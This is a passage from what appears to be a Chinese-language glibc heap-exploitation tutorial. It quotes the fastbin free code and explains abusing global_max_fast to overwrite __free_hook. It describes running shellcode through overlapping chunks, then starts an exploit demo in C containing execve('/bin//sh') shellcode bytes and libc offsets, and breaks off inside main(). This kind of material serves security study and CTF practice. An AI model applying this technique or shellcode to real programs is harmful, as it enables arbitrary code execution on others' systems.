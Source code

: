 ```C
           size of the chunk that we are adding.  We can dereference OLD
           only if we have the lock, otherwise it might have already been
           deallocated.  See use of OLD_IDX below for the actual check.  */
        if (have_lock && old != NULL)
          old_idx = fastbin_index(chunksize(old));
        p->fd = old2 = old;
      }
    while ((old = catomic_compare_and_exchange_val_rel (fb, p, old2)) != old2);

    if (have_lock && old != NULL && __builtin_expect (old_idx != idx, 0))
      {
        errstr = "invalid fastbin entry (free)";
        goto errout;
      }
  }


```

&emsp;&emsp;<font size=2>可以看到我们几乎不需要考虑绕过这些检查，只要不double free就不会有问题。在这里：</font></br>

```C
p->fd = old2 = old;
```

&emsp;&emsp;<font size=2>就是空闲fastbin的组织形式，每一个被free的fastbin的fd指向上一个堆块，bk不使用。当然是同大小的fastbin。然后后面的：</font></br>

```C
catomic_compare_and_exchange_val_rel (fb, p, old2)
```

&emsp;&emsp;<font size=2>这里的fb指向我们的试图修改的数据，是我们释放的堆块的size经过`fastbin_index`和`fastbin`两个宏计算得到的地址，而p就是我们刚释放的堆块，然后完成了一个`mov [fb],p`的操作。如果堆块可以执行的话我们可以直接让fb指向`__free_hook`，然后在p上放上我们的shellcode就行了，不过注意这里的p是指向堆块头部而不是主体，而且之前的`p->fd = old`会重写fd，所以我们可以创建一个重叠堆块，在修改完`__free_hook`后覆盖p地址为shellcode，这样下次free的时候就能执行shellcode了。</font></br>

&emsp;&emsp;<font size=2>在实际中可以用来劫持`vtable`或者整个`_IO_FILE`结构，`__free_hook`的话可能遇不到可以直接执行shellcode的情况，但是这里就不展开讲了，因为这一节主要是讲unsortedbin，不能跑太偏，一切简单为主，`global_max_fast`的利用demo就放下面了：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>

void setbufs()
{
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
	setvbuf(stderr,0,2,0);
}

// fastbin size convert to address
#define offset2size(x)	((x)<<1)
#define ul unsigned long

unsigned char shellcode[]="\x48\x31\xc0\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";

int main(){

	ul libc_base = 0;
	ul global_max_fast = 0;
	ul __free_hook = 0x3c67a8;
	ul main_arena = 0x3c4b20;
```